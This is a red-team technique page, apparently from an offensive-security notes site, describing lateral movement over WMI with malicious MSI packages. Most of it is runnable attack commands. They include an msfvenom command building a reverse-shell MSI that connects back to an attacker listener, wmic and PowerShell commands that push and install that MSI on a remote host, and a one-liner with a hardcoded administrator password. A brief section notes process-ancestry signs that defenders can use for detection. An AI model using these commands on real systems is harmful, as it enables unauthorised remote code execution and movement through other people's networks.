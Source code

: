 ```yaml
---
description: WMI lateral movement with .msi packages
---
```


# WMI + MSI Lateral Movement

## Execution

Generating malicious payload in MSI \(Microsoft Installer Package\):

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-10-19-17-31-00.png)

I tried executing the .msi payload like so, but got a return code `1619` and a quick search on google returned nothing useful:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-10-19-18-45-55.png)

I had to revert to a filthy way of achieving the goal:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/peek-2018-10-19-18-41.gif)

Additionally, the same could of be achieved using powershell cmdlets:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Get a prompt for credentials:

![](../../.gitbook/assets/screenshot-from-2018-10-19-19-02-10.png)

and enjoy the code execution:

![](../../.gitbook/assets/screenshot-from-2018-10-19-19-02-48.png)

Or if no GUI is available for credentials, a oneliner:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-10-19-19-09-42.png)

## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:

![](../../.gitbook/assets/screenshot-from-2018-10-19-18-46-37.png)

and that the connection is initiated by the .tmp file \(I ran another test, hence another file name\):

![](../../.gitbook/assets/screenshot-from-2018-10-19-18-55-53.png)

## References

{% embed url="https://www.cybereason.com/blog/wmi-lateral-movement-win32" %}

{% embed url="https://twitter.com/buffaloverflow/status/1002523407261536256" %}

